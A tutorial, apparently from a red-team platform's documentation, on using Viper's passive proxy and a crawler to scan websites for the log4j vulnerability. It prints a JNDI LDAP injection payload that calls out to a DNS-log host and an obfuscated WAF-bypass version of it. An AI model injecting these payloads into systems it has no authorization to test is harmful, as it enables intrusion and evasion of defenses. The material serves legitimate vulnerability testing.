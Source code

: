 # Use Viper to scan for log4j vulnerabilities (active scan / passive scan)

# Function
## Passive scan
● automatically replace the GETrequest parameter with payload

● the automatic replacement POST request parameter is payload

● the JSON value of automatic replacement POST request is payload

● auto replace skip password field

● automatically add payload in headers (polling according to dictionary)

● payload includes the original payload and the payload bypassing WAF

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ The payload contains UUID, which can find the specific request content that triggers the vulnerability according to the dnslog record



## Active scan
+ Get all requests for automatic page acquisition through chrome headless + crawler, and import the requests into the passive proxy to realize automatic scanning

# Tutorials
## Passive scan
+ Update Viper version to `v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)
+ Configure dnslog domain name

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)
+ Set browser proxy to viperip: 28888

+ Open the target website through the browser, click freely, input information, etc

![1639677273615-41f05455-b87e-491c-b993-3b934acfa646.webp](./img/c0meLUd67I2xejnp/1639677273615-41f05455-b87e-491c-b993-3b934acfa646-144672.webp)![1639677289481-de3c8d9f-814d-46eb-889d-46847f552404.webp](./img/c0meLUd67I2xejnp/1639677289481-de3c8d9f-814d-46eb-889d-46847f552404-170675.webp)

![1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db.webp](./img/c0meLUd67I2xejnp/1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db-024025.webp)

+ Viper background will automatically replace the entered value as payload
+ Log in to dnslog platform and observe whether there are records

![1639677403210-eebfb09a-ffa9-4af6-99cc-51d8fcd5df22.webp](./img/c0meLUd67I2xejnp/1639677403210-eebfb09a-ffa9-4af6-99cc-51d8fcd5df22-007917.webp)
+ Copy the UUID information in the red box and query it on the main page

![1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc.webp](./img/c0meLUd67I2xejnp/1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc-909468.webp)
+ The query results contain specific requests that can trigger the vulnerability

![1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741.webp](./img/c0meLUd67I2xejnp/1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741-420030.webp)


## Active scanning
+ Update Viper version to `v1.5.10`
+ Start VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)
+ Configure dnslog domain name

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)
● it is assumed here that the website to be tested is [http://target.com](http://target.com)

● install crawlergo [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)

● start the crawler and send traffic to viper's proxy

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

● wait for the webspider to finish

● log in to dnslog platform and observe whether there are records


+ Copy the UUID information in the red box and query it on the main page


+ The query result contains a specific request that can trigger the vulnerability (the request is automatically sent by crawlergo)


